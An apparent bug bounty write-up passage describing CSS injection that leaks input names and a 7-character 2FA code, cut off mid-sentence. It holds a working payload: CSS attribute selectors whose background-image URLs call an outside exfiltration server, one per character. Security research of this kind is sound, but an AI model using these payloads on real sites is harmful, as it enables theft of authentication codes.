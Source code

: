 An attack vector is well described on Mike Gualtieri and Donut blog posts, then i understood that there is a way to leak html tag name as well as their values just by specifying CSS rules and taking advantage of CSS selectors.  
Now, I have to make automation to get the code and finally process bounty payments!  

Workflow is hosting this CSS stylesheet and get a callback to ```https://myredactedvps.eu/louzogh/exfil/%s``` with the character if one of the selectors matched.  
In order to be able to test which tag is present in the page, I first made several inputs with a selector on the name of the tag, which allowed me to confirm the input tags present in the page.

```
input[name*=A] {                                                                                                                                                                             
    background-image: url(https://myredactedvps.eu/louzogh/exfil/A/);                                                                                                                                          
}    
input[name*=B] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/B/);                                                                                                                                          
}    
input[name*=C] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/C/);                                                                                                                                          
}    
input[name*=D] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/D/);                                                                                                                                          
}    
input[name*=E] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/E/);                                                                                                                                          
} 
input[name*=F] {                                                                                                                                                                          
    background-image: url(https://myredactedvps.eu/louzogh/exfil/F/);                                                                                                                                          
} 
...
```  

As we know, the 2FA code has a length of 7 characters.
Thanks to CSS selector and its hability to take regexp for matching, we have the possibility to test if a pattern exists in the name of the tags.  
I crafted my CSS stylesheet from a pattern wordlist, which results to : 
  